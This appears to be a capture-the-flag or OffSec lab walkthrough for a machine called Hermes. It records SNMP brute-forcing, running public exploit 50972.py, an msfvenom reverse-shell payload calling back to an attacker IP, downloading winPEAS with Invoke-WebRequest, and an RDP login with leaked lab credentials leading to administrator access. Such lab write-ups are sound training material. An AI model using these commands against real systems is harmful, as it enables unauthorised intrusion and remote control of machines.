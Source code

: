 # Hermes Standalone

I start off by scanning open ports:

<figure><img src="../../../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

On port 161 we discover a SNMP port open and we manage to bruteforce the password:

<figure><img src="../../../../.gitbook/assets/image (205).png" alt=""><figcaption></figcaption></figure>

So after enumerating for a bit i found this program running with snmp:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I look up exploits and find what i'm looking for:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after looking what the payload does i generate a shell.exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.45.207 -f exe -o shell.exe
```

and run the exploit after hostinf a python server:

```
python 50972.py 192.168.243.145 192.168.45.207:80 shell.exe
```

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i transfer powershell:

```
powershell
Invoke-WebRequest "http://192.168.45.207/winPEASany.exe" -OutFile "C:\Users\offsec\Desktop\winpeas.exe"
```

After running a linpeas i found some cleartext credentials:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption><p>zachary:Th3R@tC@tch3r</p></figcaption></figure>

I'm able to connect via RDP to the machine and while enumerating:

```
xfreerdp /v:192.168.243.145 /u:zachary /p:Th3R@tC@tch3r
```

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i'm able to launch shell as administrator:

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>
